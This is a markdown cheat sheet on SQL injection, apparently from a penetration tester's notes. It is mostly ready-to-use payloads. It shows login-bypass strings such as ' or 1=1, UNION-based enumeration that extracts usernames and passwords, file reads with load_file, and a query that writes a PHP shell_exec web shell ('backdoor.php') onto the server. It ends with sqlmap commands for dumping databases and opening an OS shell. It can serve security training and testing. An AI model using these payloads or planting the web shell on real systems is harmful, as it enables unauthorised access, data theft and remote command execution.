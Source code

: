 # SQL Injection

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve.

## Identifying SQLi

First of all we need to find locations where data might pass through a DB (logins, comments..) and try to use special SQL characters in order to see how the application responds (we look for SQL syntax errors). Example:

#### Using single quote (')
```bash
#Normal query from a login form:
SELECT * FROM Users WHERE login = '$username' and password = '$password';
#Given a login form we can try to inject a single quote in order to make a sql syntax error.
#Modified query that will display syntax error:
SELECT * FROM Users WHERE login = ''' and password = 'mypassword';
```
_____

## Bypass Authentication

The classic SQLi example. By providing the following input in the user input we can bypass the login of a website:

```bash
#Input used + SQL final result (condition is true because 1=1):
user' or 1=1;#
SELECT * FROM users WHERE username = 'user' or 1=1;
```

The above example will display all rows in the users database. However, there are applications that will generate an error since the logic of the program is to retrieve only one. We can bypass this by appending the LIMIT in the end of the query string in order to only display one:

```bash
user' or 1=1 LIMIT 1;#
```

### SQLi into a register form

We can try to create the following user and then log in to see if we get anything interesting:

```bash
username' or 1=1-- -
password: whatever
#Then try to log in with the above username/password.
```

_____

## Enumerating the DB

Take this as an example of a new SQL query:

```SQL
$query = "SELECT id, name, grade FROM reviews WHERE id=". _GET['id'];
```

The URL will be something like the following:

```php
.php?id='
```

We can test the single quote (') again in order to verify if we get a syntax error.

#### Column Enumeration

The "ORDER BY" statement can help us to enumerate how many columns are used in the query string.  If there is at least 'n' columns in the query, the query is valid and the page will render without errors.

```php
<!-- Start changing n to 1 and increment by 1 until there is an error:-->
php?id=1 order by n
```

Once identified how many columns the query is using, we need to know which ones are displayed in the webpage. To achieve this we can use the union statement:

```bash
#In our example there are 3 columns:
php?id=1 union select 1,2,3
#This will display a number (1, 2 and 3) on the columns.
```

#### Extracting Data

Imagine only columns 2 and 3 are being displayed in the website. We can use SQLi to extract data from the database:

```bash
#These examples are made for MariaDB, this could change depending on the software used.
#SQL Version
php?id=1 union all select 1, 2, @@version
#Database user (don't use ;):
php?id=1 union all select 1, 2, user();
#Information schema. It stores information about the database, like table and column names:
php?id=1 union all select 1, 2, table_name from information_schema.tables
#Column names from a specific table (users):
php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
#"Users" table column data:
php?id=1 union all select 1, username, password from users
```
_____

## SQLi to RCE

SQLi can be used to read and write files on the underlying OS (not always).

#### Read file from the server:

```bash
php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

#### Write file on the server:

```bash
#This can output some errors, but the file should be created
php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

_____

## SQLMap:
```bash
#TARGET should have the vulnerable parameter:
http://something.com/file.php?id=1
#Common uses
sqlmap -u $TARGET --dbs
sqlmap -u $TARGET -D $DATABASE --tables
sqlmap -u $TARGET -D $DATABASE -T $TABLE --columns
sqlmap -u $TARGET -D $DATABASE -T $TABLE -C $COLUMN1,$COLUMN2 --dump
#Take a look at cookies sent in the request, maybe should add --cookie="$COOKIE"
```

Common flags:

| **Flag**   | **Description**                            |
|------------|--------------------------------------------|
|--cookie    | HTTP Cookie header value                   |
|--dbs       | List DBS names                             |
|--tables    | Enumerate DBMS database tables             |
|--columns   | Enumerate DBMS database table columns      |
|-D          | DBMS database to enumerate                 |
|-C          | DBMS database table column(s) to enumerate |
|--dump      | Dump DBMS database table entries           |
|--dbms=mysql| Set backend type (change mysql)            |
|--os-shell  | Execute a remote command shell on target system|
